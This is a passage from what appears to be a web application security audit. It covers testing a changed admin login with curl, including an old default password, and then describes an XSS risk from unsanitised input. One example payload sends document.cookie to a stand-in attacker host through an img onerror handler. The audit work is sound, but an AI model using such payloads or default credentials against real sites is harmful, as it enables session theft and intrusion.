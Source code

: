 ```
# 1. Restart services with new password
docker-compose down
docker-compose up -d

# 2. Try old password (should fail)
curl -X POST http://localhost:3001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@lmtek.com","password":"admin123"}'
# Expected: 401 Unauthorized

# 3. Try new password (should succeed)
curl -X POST http://localhost:3001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@lmtek.com","password":"<YOUR_NEW_PASSWORD>"}'
# Expected: 200 OK with user data
```

**Estimated Time:** 15 minutes
**Risk Level:** None (just save the new password securely)

---

## Issue #4: No Input Sanitization (XSS Risk)

### Current Vulnerability

**Problem:** User inputs are not sanitized, allowing script injection.

**Attack Scenarios:**

**Example 1: Quote Notes**
```typescript
// User submits quote with malicious notes
POST /api/quotes
{
  "notes": "<script>alert('XSS!');</script>",
  // ... other data
}

// When admin views quote, script executes in their browser
```

**Example 2: User Registration**
```typescript
// User registers with malicious name
POST /api/auth/register
{
  "name": "<img src=x onerror='fetch(\"https://attacker.com/steal?data=\" + document.cookie)'>",
  "email": "attacker@example.com",
  "password": "password123"
}

// Name displays as image, executes script on error
```
